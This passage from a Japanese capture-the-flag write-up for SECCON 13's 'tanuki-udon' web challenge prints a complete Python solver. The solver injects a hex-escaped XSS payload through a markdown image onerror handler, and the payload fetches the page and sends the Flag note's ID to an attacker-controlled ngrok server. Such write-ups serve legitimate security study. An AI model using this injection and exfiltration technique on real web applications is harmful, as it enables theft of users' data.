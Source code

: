 実際に実行させるスクリプトは次のことをすればよい。
1. `/`にfetchを行う
2. fetchの結果の文字列から、タイトルが`Flag`であるノートのIDを抽出する
3. 抽出結果を自分で用意したサーバーに送る


※一応非想定解だったみたいです。作問者のSatoooonさんの解説記事楽しみにしてます。

### 最終的なコード
```python:solver.py
import re
import webbrowser
import requests

URL = "http://tanuki-udon.seccon.games:3000/"
# URL = "http://localhost:3000/"
EVIL = "https://xxx.ngrok.app/"

s = requests.session()
title = "x"

# XSSのペイロード
p = f"""
fetch("/")
  .then(x => x.text())
  .then(x => document.location.assign("{EVIL}?"+x.match(/<a href="(.+)">Flag<\\/a>/)[1]))
""".strip()

# \xを利用した16進数のエスケープ
payload = "".join(["\\x" + "{:02x}".format(ord(c)) for c in p])


# ノートの作成
r = s.post(URL + "note", data={
  "title": title,
  "content": "![[]()]( src=X onerror=eval.call`${`%s`}`//)" % payload
})
print(r.text)

# ノートのIDの取得
r = s.get(URL)
id = re.findall(f'<a href="/(.+)">{title}</a>', r.text)[0]
# webbrowser.open(URL + id) # テスト用でブラウザで自動的に開く
# print(URL + id)

# 以下をbotに送る
print("http://web:3000/" + id)
```

## ✅ double-parser (221pts 17solves)

![](/assets/blog/seccon13/a3ee064bc222-20241125.png)
